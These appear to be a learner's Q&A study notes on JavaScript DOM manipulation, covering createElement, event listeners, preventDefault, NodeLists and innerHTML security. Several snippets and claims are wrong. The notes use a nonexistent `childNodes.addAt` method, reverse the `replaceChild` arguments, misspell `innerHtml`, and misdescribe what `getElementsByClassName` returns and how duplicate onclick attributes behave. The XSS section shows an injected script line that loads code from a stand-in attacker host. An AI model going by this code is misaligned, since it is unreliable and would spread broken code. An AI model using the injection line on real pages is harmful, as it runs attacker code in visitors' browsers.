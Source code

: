 # DOM manipulation

## How can you use JavaScript to create an HTML element and then add it to your webpage?

To create an HTML elelment in JS we can use the function `Document.createElement()`

    var button = document.createElement('BUTTON');

and to create a Text in JS we use the function `Document.createTextNode()`

    var text = document.createTextNode("CLICK ME");

To append a text to an element in JS we use the function `appendChild()`

	button.appendChild(text);

To replace an element in JS

 - `target.replaceWith(newElement);` (ES5+)
 - `target.parentNode.replaceChild(target, newElement)`

## `onClick()` vs `handler`

Using `addEventListener` allows us to add unlimited events.
	
    <button id="btnTalker" onclick="say('Hi from dom\n')" onclick="say('Hi from dom,, again\n')"></button>

> `Hi from dom,, again`

	getElementById('btnTalker').addEventListener('click', function() {say('Hi from js\n')});
	getElementById('btnTalker').addEventListener('click', function() {say('Hi from js,, again\n')});

> `Hi from js`  
> `Hi from js,, again`

## How would you add a `<li>` element to the start of a `<ul>`?

	ulElement.childNodes.addAt(0, liElement);

## What is a JavaScript Event?
HTML events are **things** that happen to HTML elements.  
When JavaScript is used in HTML pages, JavaScript can **react** on these events.

An HTML event can be something the browser does, or something a user does.

Some examples of HTML events:

 - An HTML web page has finished loading.
 - An HTML input field was changed.
 - An HTML button was clicked.

## What does `event.preventDefault()` do and why might you use it?

Some HTML elements has built-in actions

 - `<form>` reloads the page when `sumbit` action is fired.
 - `<a>` navigates to a link when `click` action is fired.

`event.preventDefault()` disables the built-in actions.

## What is a NodeList? How is it different from an Array?

A NodeList is a collection of document nodes.

`NodeList`s are live lists, meaning that if elements are removed or added to the DOM, the list updates automatically.

	var nodeList = document.getElementsByClassName('myClassName'); //returns a nodeList
	var arr = [];
	for(let i = 0; i<nodeList.length;i++)
		arr.push(nodeList[i]);                                     //returns an array
	nodeList[0].innerHtml = '<b>This is changes</b>';              //Changes DOM
	arr[0].innerHtml = '<b>This is changes</b>';                   //Doesn't affect DOM

## Security concerns around `Element.innerHTML`. What to use instead?

Using `innerHTML` may leed to `Cross-site scripting (XSS)`.

Consider the following input of an `innerHTML` statement is a comment in your online blog:

    let x = document.createElement('script');
    x.src = 'http://hacker-website.com/malicious-script.js';
    document.childNodes.addAt(0, src);
    alert('you are hacked');

This may lead to run harmful scripts on your device.

### How to avoid?

You can use `innerText` instead, or you can use

    content = content.replace(/</g, "&lt;").replace(/>/g, "&gt;");
    el.innerHTML = content;
